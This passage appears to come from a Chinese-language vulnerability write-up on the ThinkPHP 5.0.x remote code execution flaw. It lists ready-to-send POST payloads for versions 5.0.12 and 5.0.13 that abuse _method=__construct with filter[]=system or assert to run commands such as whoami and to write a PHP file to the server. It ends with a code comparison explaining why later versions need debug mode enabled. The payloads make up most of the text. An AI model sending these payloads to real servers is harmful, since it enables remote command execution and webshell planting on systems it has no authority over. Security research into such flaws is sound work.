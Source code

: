 ```
aaaa=whoami&_method=__construct&method=GET&filter[]=system
_method=__construct&method=GET&filter[]=system&get[]=whoami
c=system&f=calc&_method=filter
```
写shell
```
POST
s=file_put_contents('Y4er.php','<?php phpinfo();')&_method=__construct&method=POST&filter[]=assert
```
### 5.0.12
默认debug=false，debug无关
命令执行
```
POST ?s=index/index
s=whoami&_method=__construct&method=POST&filter[]=system
aaaa=whoami&_method=__construct&method=GET&filter[]=system
_method=__construct&method=GET&filter[]=system&get[]=whoami
c=system&f=calc&_method=filter
```
写shell
```
POST
s=file_put_contents('Y4er.php','<?php phpinfo();')&_method=__construct&method=POST&filter[]=assert
```
### 5.0.13
默认debug=false，需要开启debug
命令执行
```
POST ?s=index/index
s=whoami&_method=__construct&method=POST&filter[]=system
aaaa=whoami&_method=__construct&method=GET&filter[]=system
_method=__construct&method=GET&filter[]=system&get[]=whoami
c=system&f=calc&_method=filter
```
写shell
```
POST
s=file_put_contents('Y4er.php','<?php phpinfo();')&_method=__construct&method=POST&filter[]=assert
```

## 版本和DEBUG选项的关系
5.0.13版本之后需要开启debug才能rce，为什么？比较一下5.0.13和5.0.5版本的代码

https://github.com/top-think/framework/compare/v5.0.5...v5.0.13#diff-d86cf2606459bf4da21b7c3a1f7191f3

可见多了一个`exec`方法把`switch ($dispatch['type'])`摘出来了，然后在`case module`中执行了`module()`，在`module()`中多了两行。
```
// 设置默认过滤机制
$request->filter($config['default_filter']);
```
问题就出在这，回顾我们上文分析5.0.5，是从`App::run()`方法中第一次加载默认filter位置: `thinkphp/library/think/App.php`
```
$request->filter($config['default_filter']);
```
在覆盖的时候可以看到，默认`default_filter`是为空字符串，所以最后便是进入了`$this->filter = $filter`导致`system`值变为空。
```php
public function filter($filter = null){
        if (is_null($filter)) {
            return $this->filter;
        } else {
            $this->filter = $filter;
        }
}
```